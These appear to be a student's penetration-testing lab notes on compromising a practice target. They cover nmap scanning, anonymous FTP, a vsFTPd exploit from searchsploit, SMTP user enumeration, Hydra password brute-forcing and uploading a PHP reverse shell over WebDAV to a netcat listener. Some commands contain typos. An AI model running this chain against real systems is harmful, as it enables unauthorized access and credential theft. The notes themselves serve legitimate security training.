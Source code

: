 

#### Port scanning & enumeration 

- service versoin detection scan on target system `nmap -sV -p1-10000 target -oN nmap_10k.txt 
- manual banner grabbing if nmap does not provide any results: `nc - nv ip port`

![[Pasted image 20230916125239.png]] 
this port allowed a connection to a bind shell listener (root shell :O)


#### Targeting vsFTPd

- nmap port 21 
if anonymous login is allowed we can login without credentials
- ftp ip port (username:anonoymous emptypassword)
- `searchsploitvsftpd `
- `searchsploit -m exploitdb_id 
- analyze exploit with `vim` 
- `chmod -x file`
- `python3 file ip `

it is possible that this does not work bc the port used in this exploit can be removed  by the administrator (check port wit nmap) -> exploits might not work bc they have been patched. 

- nmap -sV -p 25 ip (SMTP)
smtp gives you easy way to identify user accounts on target system. 
	- use msfconsole
	- search smtp_enum 
 accounts: add them to textfile. 

Use the account `service` in the bruteforce, not interesting to use service accounts for bruteforce. Only use user-accounts in bruteforce
ftp bruteforce: `hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt target protocol `

Connect to ftp with credentials of useraccount
- pwd (if result is /home/service that that confirms that this is a user-account)
- cd /
- visit webserver in browser
	- Use webdav to get reverse shell 
		- `ls -al /usr/share/webshells/`
		- you need a php shell:  php-reverse-shell.php
		- copy file to current working directory: `cp /usr/share/webshells/php/php-reverse-shell.php . `
		- rename: `mv php-reverse-shell.php shell.php `
		- modify the file: change the ip to kali ip and the port should match with the port you will be listening on
			- set up netcat in other window: `nc -nvlp 1234 `
		- navigate to root of ftp (ftp stores everything under var)
			- cd /var/www
			- cd dav (only have rights to change this directory)
			- put shell.php 
			- click on the file (the netcat listener window will show a connection, /bin/bash -i)

	




























#### Targeting PHP

#### Targeting SAMBA 
